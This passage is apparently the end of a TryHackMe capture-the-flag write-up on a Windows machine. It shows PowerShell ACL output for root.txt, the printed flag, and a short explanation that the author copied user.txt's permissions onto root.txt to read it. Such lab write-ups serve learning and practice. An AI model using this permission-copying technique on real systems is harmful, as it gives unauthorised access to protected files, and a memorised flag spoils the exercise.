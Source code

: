 ```powershell
PS C:\users\nekrotic\desktop> get-acl root.txt | ft

    Directory: C:\users\nekrotic\desktop

Path     Owner                    Access                                                                               
----     -----                    ------                                                                               
root.txt WIN-EOM4PK0578N\Nekrotic NT AUTHORITY\SYSTEM Allow  FullControl...                                            

PS C:\users\nekrotic\desktop> get-acl root.txt | ft;type root.txt

    Directory: C:\users\nekrotic\desktop

Path     Owner                    Access                                                                               
----     -----                    ------                                                                               
root.txt WIN-EOM4PK0578N\Nekrotic NT AUTHORITY\SYSTEM Allow  FullControl...                                            

THM{8c8bc5558f0f3f8060d00ca231a9fb5e}
```

As we can see, we now succesfully changed the ownership of the file with PowerShell’s built in commands to modify and set the ACL list. This way, we just copied our current users “user.txt” file permissions over to the “root.txt” file. Pretty simple to get the final flag!

